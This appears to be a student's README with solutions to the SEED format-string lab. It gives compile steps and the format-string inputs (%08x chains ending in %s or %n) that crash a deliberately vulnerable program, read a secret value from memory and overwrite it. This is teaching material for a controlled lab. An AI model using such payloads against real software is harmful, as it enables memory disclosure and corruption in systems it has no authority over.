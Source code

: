 # SS

## Lab1

#### Documentation
* [Homepage](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/)
* [Description](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/Format_String.pdf)

#### Required
* [Ubuntu Virtual Machine](http://www.cis.syr.edu/~wedu/SEEDUbuntu12.04.zip)
* `vul_prog.c`
* `write_string.c`

#### Tasks
1. Crash the program
2. Print out the secret[1] value
3. Modify the secret[1] value

#### Solution
Compile and run `vul_prog.c`:
```
gcc vul_prog.c -o vul_prog
./vul_prog
```

1. Load memory address out from program reserved addresses
```
# input integer
255
# input string
%08x%08x%s
```

2. Go to secret[1] memory address and load value
```
# input integer
(secret[1] address hexa to decimal)
# input string
%08x%08x%08x%08x%08x%08x%08x%08x%s
```

3. Go to secret[1] memory address and save length with `printf(%n)`
```
# input integer
(secret[1] address hexa to decimal)
# input string
%08x%08x%08x%08x%08x%08x%08x%08x%n
```
